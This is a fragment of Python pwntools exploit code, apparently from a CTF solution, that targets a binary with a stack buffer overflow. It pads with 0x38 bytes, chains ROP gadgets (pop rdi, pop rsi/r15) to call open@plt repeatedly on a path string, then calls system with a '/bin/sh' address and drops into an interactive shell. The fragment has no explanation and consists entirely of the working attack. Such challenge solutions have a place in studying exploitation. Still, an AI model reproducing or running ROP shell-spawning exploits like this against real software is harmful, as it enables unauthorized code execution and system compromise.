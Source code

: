 ```python

r.sendlineafter('Input file name: ',payload1)
r.sendlineafter('Input offset: ','0')
r.sendlineafter('Input size: ','400')


payload3 = 'A'*0x38 # dummy
## open('/proc/self/fd/0',0,)
for i in range(0,3):
	payload3 += p64(0x00400a73) #0x0000000000400a73 : pop rdi ; ret 
	payload3 += p64(string + 0x10 + 0x09*i)
	payload3 += p64(0x0400a71) #0x0400a71 : pop rsi ; pop r15 ; ret
	payload3 += p64(0x02)
	payload3 += p64(0x00)
	payload3 += p64(0x0400710) # open@plt  rdx is very biggg!

payload3 += p64(0x0000000000400a73) # 0x0000000000400a73 : pop rdi ; ret
payload3 += p64(binsh_addr)# /bin/sh
payload3 += p64(system_addr) # system
r.sendline(payload3)

r.interactive()
```
